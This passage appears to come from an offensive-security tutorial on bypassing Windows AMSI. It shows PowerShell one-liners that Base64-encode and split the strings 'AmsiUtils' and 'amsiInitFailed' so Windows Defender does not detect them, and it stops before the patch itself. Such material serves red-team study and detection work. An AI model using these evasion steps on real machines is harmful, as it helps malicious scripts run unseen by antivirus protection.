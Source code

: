 
## <span style="color:lightgreen">Patching AMSI</span>

After analyzing the strings that caused Windows Defender to block our script, we can now take steps to bypass this security mechanism. Several techniques can be used to evade detection, with one of the simplest and most effective being to encode or encrypt the payload.

We can do it in the following ways
  1. Base64 Encoding
  2. Hex Encoding
  3. Reversing The String
  4. Concatenation

> Now lets try to modify our original payload using just Base64 encoding.

### <span style="color:pink">Base64 Encoding</span>

Base64 Encoding is a widely used encoding technique that converts binary data into a string of ASCII characters. This method is easy to implement and can be decoded with simple tools.

+ A simple Base64 encoding and decoding snippet in PowerShell looks like this :

```powershell
# Encoding Payload
PS:\> $Text = 'Hello World';$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text);$EncodedText=[Convert]::ToBase64String($Bytes);$EncodedText
# Decoding Paylaod
PS:\> $([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('SABlAGwAbABvACAAVwBvAHIAbABkAA==')))
```


![image](https://github.com/0xStarlight/0xStarlight/assets/59029171/ebc13c07-c4b0-4558-b66f-22276b30eeba)

+ Now we can do the same for *AmsiUtils* and *amsiInitFailed*

```powershell
PS:\> $Text = 'AmsiUtils';$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text);$EncodedText=[Convert]::ToBase64String($Bytes);$EncodedText
```

![image](https://github.com/0xStarlight/0xStarlight/assets/59029171/ac648e82-2d56-405f-ab8a-31e5d92a0485)

+ Windows Defender could still detect *AmsiUtils* encoded in base64. We can divide this into two pieces and concat them together to avoid getting detected.

```powershell
# Encoding Payload
PS:\> $Text = 'Amsi';$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text);$EncodedText=[Convert]::ToBase64String($Bytes);$EncodedText
PS:\> $Text = 'Utils';$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text);$EncodedText=[Convert]::ToBase64String($Bytes);$EncodedText

# Decoding Paylaod
PS:\> $([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('QQBtAHMAaQA=')))+$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('VQB0AGkAbABzAA==')))
```
